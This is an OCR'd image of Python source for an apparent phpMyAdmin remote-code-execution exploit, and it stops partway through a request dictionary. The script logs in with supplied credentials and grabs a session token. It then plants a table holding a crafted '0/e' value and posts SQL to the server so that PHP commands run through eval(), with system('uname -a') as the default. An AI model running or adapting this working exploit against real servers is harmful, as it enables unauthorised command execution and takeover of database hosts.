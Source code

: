 ```python
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
```